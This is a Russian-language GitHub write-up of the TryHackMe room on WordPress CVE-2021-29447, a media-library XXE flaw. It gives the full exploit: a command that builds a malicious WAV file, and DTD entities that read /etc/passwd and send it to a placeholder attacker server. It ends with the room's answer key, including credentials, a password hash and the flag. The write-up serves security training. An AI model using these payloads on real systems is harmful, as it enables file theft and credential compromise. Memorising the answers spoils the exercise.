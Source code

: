 [>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)

# Комната [Wordpress: CVE-2021-29447](https://tryhackme.com/r/room/wordpresscve202129447) 

Всего 2 задания:
## Задание 1
Уязвимость XXE состоит из инъекции, которая использует плохую конфигурацию интерпретатора XML. Это позволяет нам 
включать внешние сущности, позволяя нам атаковать приложения, которые интерпретируют язык XML в своих параметрах. Мы 
рассмотрим недавнюю уязвимость XXE , хотя и с некоторыми ситуативными оговорками.  

Исследователи из компании по безопасности SonarSource обнаружили уязвимость XML external entity injection (XXE) в 
медиабиблиотеке WordPress. Уязвимость может быть использована только в том случае, если эта CMS работает на PHP 8 и 
у атакующего пользователя есть разрешения на загрузку медиафайлов. Обратите внимание на последнее условие, когда мы 
рассмотрим пример использования этой уязвимости ниже.

#### Влияние
Произвольное раскрытие файлов : содержимое любого файла в файловой системе хоста может быть извлечено, например,  
wp-config.php  , который содержит конфиденциальные данные, такие как учетные данные базы данных.  
Подделка запросов на стороне сервера ( SSRF ) : HTTP- запросы могут быть сделаны от имени установки WordPress. В 
зависимости от среды это может иметь серьезные последствия.  


#### Использование уязвимости

Сайт WordPress, затронутый этой уязвимостью, был идентифицирован с помощью инструмента WPScan. Ниже мы можем увидеть 
вывод этого инструмента из нашего перечисления.  

В этом примере мы определили, что пользователь-автор использует слабые учетные данные.

user: test-corp
password: test

В этом случае мы видим, что у этого пользователя есть разрешение на загрузку медиафайлов. Мы можем использовать это 
для загрузки обратного шелла! 



Создание вредоносного WAV-файла.

Это очень просто, в консоли bash введите следующую команду:
```commandline
nano poc.wav
echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM '"'"'http://YOURSEVERIP:PORT/NAMEEVIL.dtd'"'"'>%remote;%init;%trick;]>\x00' > payload.wav
```

На вашей атакующей машине (вероятно, Kali или TryHackMe AttackBox) создайте файл dtd со следующим кодом. Это позволит нам выполнить код после того, как веб-сервер извлечет файл dtd. Убедитесь, что имя этого файла совпадает с тем, что вы ввели в файл .wav для NAMEEVIL.dtd (см. предыдущую аннотацию к коду).
```commandline
<!ENTITY % file SYSTEM "php://filter/zlib.deflate/read=convert.base64-encode/resource=/etc/passwd">
<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://YOURSERVERIP:PORT/?p=%file;'>" >
```
Теперь запустите http-сервер в том же каталоге, что и файл dtd.

`php -S 0.0.0.0:PORT`

Теперь загрузите вредоносный .wav в приложение WordPress!

После загрузки файла .wav вы должны увидеть следующий запрос в журналах HTTP-сервера. Обратите внимание, что для 
эффективной эксфильтрации данных мы использовали Zlib для кодирования.  

Для практики (и ради примера) давайте используем PHP для декодирования этой рекламной статьи! Создайте .php со 
следующим кодом, просто не забудьте скопировать и вставить base64, возвращенный сервером WordPress, где у нас есть 
'base64here' в коде примера.

`<?php echo zlib_decode(base64_decode('base64here')); ?>`

Запустите php-файл с помощью следующей команды: php FILENAME.php

Аналогичным образом мы также можем использовать другие библиотеки кодирования base64, например следующие:
```commandline
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd">
<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://YOURSERVERIP:PORT/?p=%file;'>" >
```

Расшифровать это отсюда проще простого! Мы можем скопировать полученный base64-текст обратно в консоль для 
расшифровки с помощью следующей команды:
`echo "base64here" | base64 -d`
Переходите к следующему заданию и попробуйте сами!

### Ответьте на вопросы ниже
Прочитайте вышеизложенное.
```commandline
Ответ не нужен
```

## Задание 2
Пожалуйста, помогите нам взломать систему, используя информацию, предоставленную во вводном задании.

Сможете ли вы выполнить задание?
### Ответьте на вопросы ниже
Используйте уязвимость CVE-2021-29447 для чтения файла конфигурации WordPress.
```commandline
Ответ не нужен
```
Исходя из результатов пункта 1, как называется база данных для WordPress?
```commandline
wordpressdb2
```
Основываясь на результатах пункта 1, какие учетные данные вы обнаружили?
пример: пользователь:пароль
```commandline
thedarktangent:sUp3rS3cret132
```
Перечислите и определите, какие СУБД установлены на сервере?
```commandline
mysql
```
Исходя из результатов пункта 4,  какая  версия СУБД  установлена ​​на сервере?
```commandline
5.7.33
```
Исходя из результатов пункта 4,  на каком порту  работает СУБД  ?
```commandline
3306
```
Скомпрометируйте  СУБД. Какой зашифрованный пароль находится в таблице пользователей WordPress с идентификатором 1?
```commandline
$P$B4fu6XVPkSU5KcKUsP1sD3Ul7G3oae1
```
Исходя из результатов пункта 7, каков пароль в открытом тексте?
```commandline
teddybear
```
Взломайте машину и найдите flag.txt
```commandline
thm{28bd2a5b7e0586a6e94ea3e0adbd5f2f16085c72}
```


[>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)